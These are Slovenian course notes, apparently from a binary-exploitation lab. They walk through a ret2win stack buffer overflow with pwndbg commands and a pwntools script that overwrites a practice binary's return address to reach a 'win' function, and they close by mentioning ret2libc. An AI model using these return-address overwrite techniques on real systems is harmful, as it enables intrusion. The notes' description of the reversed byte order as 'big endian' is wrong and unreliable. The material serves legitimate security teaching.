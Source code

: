 - če povozimo return address lahko naredimo, da main kliče samega sebe (prejšnja vaja)
- za skoke nazaj rabimo return address in kje se je prejšnji stack začel (to je base pointer)
- za skoke rabimo vedeti return address in base pointer

- ret2win - skočiš na "win" function
- rabimo compilat brez kanarčka: `gcc -fno-stack-protector -z execstack -no-pie -o server server.c`

```
pwndbg main
run // požene program, lahko samo `r`
b main // breakpoint na prvo vrstico main
r
```

- RBP = base pointer
- RSP = stack pointer
- na začetku kažeta na isto zadevo
- RIP = instruction pointer (program counter) - kaže na naslov naslednjega ukaza

```
b* main // se break-a po tem, ko se prvi ukaz zažene, ne pred tem tako kot pri `b`
```

```
ni // next instruction
```

- stack je na dnu pomnilnika, zato je naslov `0x7fffffff...`
- če vpišemo preveč znakov (A):
	- ![200](Images3/Pasted%20image%2020250303134932.png)
	- s tem smo povozili stack, na stacku je shranjeno zaporedje klicov funkcij - ko pridemo do return, bo poskusilo skočiti na `0x4141414141414141` (na naslov na vrhu stacka) (to so v bistvu ASCII 'A')

```
c // continue, da gre naprej do breakpointa, ki ga imamo v main
```

- `x/100gx $rsp` - dobimo memory map
- lahko rabimo alignment na nekaj bytov, zato naš char array ni res 20B, ampak je 32 ali 40 ...

```python
from pwn import *

# p = process('./main')

p = gdb.debug("./main", "b * main") # drugi parameter je string stvari, ki jih bomo dali debugggerju, tukaj je to en breakpoint

# p.sendline(b"burek") # b pomeni byte string - vsak character je en byte (kot ASCII), ne moreš imeti UTF8

# b"\x41" = "A"

# s = p.recvline()
# print(s)

# p.sendline(b"A"*70)

p.sendline(b"A"*20 + b"B"*8 + b"C"*8)

p.interactive() # vklopi interactive način, da se lahko pogovarjam s programom
```

- ![500](Images3/Pasted%20image%2020250303143510.png)

- da ugotovimo, kje v pomnilniku je `win` funkcija, moramo pogledati disassembly:
	- `disass main`
	- `disass win`

`0x0000000000401156`
`b"\x00\x00\x00\x00\x00\x40\x11\x56"`
- rabimo v bistvu ravno okoli obrniti, ker rabimo big endian (vodila na procesorju so tako postavljena na RAM, da se ravno zarotira)
- `b"\x56\x11\x40\x00\x00\x00\x00\x00"`

- pwntools funkcija `p64` - `p64(0x401156)`

```
from pwn import *

# p = process('./main')
p = gdb.debug("./main", "b * main") # drugi parameter je string stvari, ki jih bomo dali debugggerju, tukaj je to en breakpoint

# p.sendline(b"burek") # b pomeni byte string - vsak character je en byte (kot ASCII), ne moreš imeti UTF8
# b"\x41" = "A"

# s = p.recvline()
# print(s)

# p.sendline(b"A"*70)
p.sendline(b"A"*32 + b"B"*8 + p64(0x401156))

p.interactive() # vklopi interactive način, da se lahko pogovarjam s programom
```

- po koncu main, bo skočilo v `win` funkcijo in izpisalo "You win"
- ret2libc - vemo, kje je puts in kje ima libc `system` - lahko skočimo na `system`
